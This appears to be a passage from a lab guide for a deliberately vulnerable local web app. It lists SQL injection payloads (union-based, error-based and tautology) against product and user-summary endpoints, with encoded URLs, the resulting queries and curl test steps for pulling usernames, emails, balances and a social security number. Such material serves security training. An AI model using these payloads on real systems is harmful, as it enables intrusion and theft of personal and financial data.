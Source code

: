 #### Payload 2: Union-Based Data Extraction
- **Category**: `Electronics' UNION SELECT 1, username, email, 0, 'Users', 0, true, CURRENT_TIMESTAMP FROM users -- `
- **URL**: `http://localhost:3000/api/products/Electronics%27%20UNION%20SELECT%201,username,email,0,%27Users%27,0,true,CURRENT_TIMESTAMP%20FROM%20users%20--%20`
- **Resulting Query**: `SELECT * FROM products WHERE category = 'Electronics' UNION SELECT 1, username, email, 0, 'Users', 0, true, CURRENT_TIMESTAMP FROM users -- `
- **Effect**: Returns user data (usernames and emails) formatted as products.
- **How to Test**:
  1. Send the request via `curl` or a browser.
  2. Look for usernames (e.g., `admin`, `john_doe`) in the `name` field of the response.
  3. Use Burp Suite to inject the payload into a frontend request.

#### Payload 3: Error-Based Injection
- **Category**: `Electronics' AND (SELECT CAST((SELECT social_security_number FROM user_profiles LIMIT 1) AS INTEGER)) -- `
- **URL**: `http://localhost:3000/api/products/Electronics%27%20AND%20(SELECT%20CAST((SELECT%20social_security_number%20FROM%20user_profiles%20LIMIT%201)%20AS%20INTEGER))%20--%20`
- **Resulting Query**: `SELECT * FROM products WHERE category = 'Electronics' AND (SELECT CAST((SELECT social_security_number FROM user_profiles LIMIT 1) AS INTEGER)) -- `
- **Effect**: Causes a database error that may leak the social security number (e.g., `123-45-6789`) in the error message.
- **How to Test**:
  1. Send the request via `curl` or a browser.
  2. Check the server response or logs for an error containing `123-45-6789`.
  3. Use a proxy to modify a frontend request.

### 4. User Summary Endpoint (`GET /api/user-summary/:username`)
- **Input Field**: `username` (URL parameter)
- **Vulnerable Query**: `SELECT * FROM user_summary WHERE username = '${username}'`
- **Goal**: Extract sensitive user data or manipulate the view.

#### Payload 1: Retrieve All User Summaries
- **Username**: `admin' OR '1'='1`
- **URL**: `http://localhost:3000/api/user-summary/admin%27%20OR%20%271%27=%271`
- **Resulting Query**: `SELECT * FROM user_summary WHERE username = 'admin' OR '1'='1'`
- **Effect**: Returns all rows from the `user_summary` view, including usernames, emails, roles, balances, and order counts.
- **How to Test**:
  1. In the frontend, enter the payload in the `username` field under "User Summary" and click "Fetch User Summary."
  2. Check the displayed data for multiple user records.
  3. Use `curl`:
     ```bash
     curl "http://localhost:3000/api/user-summary/admin%27%20OR%20%271%27=%271"
     ```

#### Payload 2: Union-Based Sensitive Data Extraction
- **Username**: `admin' UNION SELECT 1, 'hacked', email, 'administrator', first_name, last_name, account_balance, 0 FROM user_profiles -- `
- **URL**: `http://localhost:3000/api/user-summary/admin%27%20UNION%20SELECT%201,%27hacked%27,email,%27administrator%27,first_name,last_name,account_balance,0%20FROM%20user_profiles%20--%20`
- **Resulting Query**: `SELECT * FROM user_summary WHERE username = 'admin' UNION SELECT 1, 'hacked', email, 'administrator', first_name, last_name, account_balance, 0 FROM user_profiles -- `
- **Effect**: Extracts sensitive data (e.g., emails, names, balances) from `user_profiles`.
- **How to Test**:
  1. Enter the payload in the frontend’s `username` field and click "Fetch User Summary."
  2. Use `curl` or a browser to send the request.
  3. Check the response for user profile data (e.g., `email: "admin@company.com"`).
